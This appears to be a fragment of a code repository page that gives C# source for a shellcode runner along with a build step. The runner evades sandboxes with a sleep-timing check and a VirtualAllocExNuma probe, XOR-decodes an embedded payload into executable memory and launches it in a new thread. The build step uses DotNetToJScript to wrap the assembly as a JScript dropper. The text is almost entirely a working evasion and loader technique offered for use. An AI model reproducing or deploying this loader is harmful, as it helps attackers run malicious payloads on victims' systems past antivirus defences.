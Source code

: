 ```csharp

        [DllImport("kernel32.dll")]
        static extern IntPtr GetCurrentProcess();

        [DllImport("kernel32.dll")]
        static extern void Sleep(uint dwMilliseconds);

        //public static void runner()
        static void Main(string[] args)
        {

            DateTime t1 = DateTime.Now;
            Sleep(2000);
            double t2 = DateTime.Now.Subtract(t1).TotalSeconds;
            if (t2 < 1.5) {
            return;
            }


            IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0);
            if (mem == null)
            {
                return;
            }

            byte[] buf = new byte[510] {XORED_SHELLCODE};
    
            for (int i = 0; i < buf.Length; i++)
            {
                buf[i] = (byte)(((uint)buf[i] ^ 0xAA) & 0xFF);
            }

            int size = buf.Length;

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```
<br>

## **Build_JS**
```
DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o runner.js
```
<br>
